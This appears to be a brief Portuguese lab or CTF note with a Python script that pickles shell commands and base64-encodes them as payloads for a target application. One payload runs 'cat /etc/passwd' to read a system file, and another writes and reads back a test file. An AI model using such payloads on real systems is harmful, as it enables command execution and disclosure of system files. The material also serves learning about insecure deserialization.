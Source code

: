 
Criei um script python para gerar o pickel do comando que eu quero executar na aplicação

```python3
import pickle
import base64

payload = pickle.dumps(b'cat /etc/passwd')

encoded_payload = base64.urlsafe_b64encode(payload).decode()

print(encoded_payload)
```

## pickle para ler o /etc/passwd

```
gASVEwAAAAAAAABDD2NhdCAvZXRjL3Bhc3N3ZJQu
```


```python3
import pickle
import base64

payload = pickle.dumps(b'touch foo.txt \n echo "Algeum passou por aqui" >> foo.txt \n head -n 1 foo.txt')

encoded_payload = base64.urlsafe_b64encode(payload).decode()

print(encoded_payload)
```


## pickle para escrever e ler o arquivo criado

```
gASVUAAAAAAAAABDTHRvdWNoIGZvby50eHQgCiBlY2hvICJBbGdldW0gcGFzc291IHBvciBhcXVpIiA-PiBmb28udHh0IAogaGVhZCAtbiAxIGZvby50eHSULg==
```
